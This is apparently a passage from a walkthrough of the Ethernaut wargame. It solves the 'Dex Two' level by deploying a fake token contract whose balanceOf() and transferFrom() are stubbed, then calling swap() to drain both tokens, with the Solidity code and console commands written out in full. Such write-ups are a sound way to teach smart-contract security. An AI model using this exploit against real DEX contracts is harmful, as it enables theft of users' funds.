 Don’t forget to approve your metamask wallet and this contract to use your tokens.

# 23. Dex Two

If we see the `swap()` carefully the require statement ensuring that the from and to addresses should be addresses of token1 and token2 is removed. Easy enough! We can deploy an external contract having a `tranferFrom()` which returns true and a `balanceOf()` which retuns 1. Using this we can drain the contract of both the tokens! Lets deploy the contract below:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./hadcoins.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.4.0/contracts/token/ERC20/IERC20.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.4.0/contracts/token/ERC20/ERC20.sol";

contract Test {
    constructor() public {}

    function balanceOf(address sender) public pure returns (uint256) {
        return 1;
    }

    function transferFrom(
        address sender,
        address getter,
        uint256 amount
    ) public pure returns (bool) {
        return true;
    }
}
```

We will use the address of this contract as an input to the from param of the swap().

```jsx
> await contract.token1()
< "0x96D050054b99c4682226F908F615E5DD00597bB9"

> await contract.token2()
< "0x87Cc0a307378fE1Fc3683a547143508ce149c16d"

> await contract.swap("0xb19424ae78Ee74A6207E69B9e4D88a8A9c695E47",
< "0x96D050054b99c4682226F908F615E5DD00597bB9", 1)

> await contract.swap("0xb19424ae78Ee74A6207E69B9e4D88a8A9c695E47",
< "0x87Cc0a307378fE1Fc3683a547143508ce149c16d", 1)
```

# 24. Puzzle Wallet
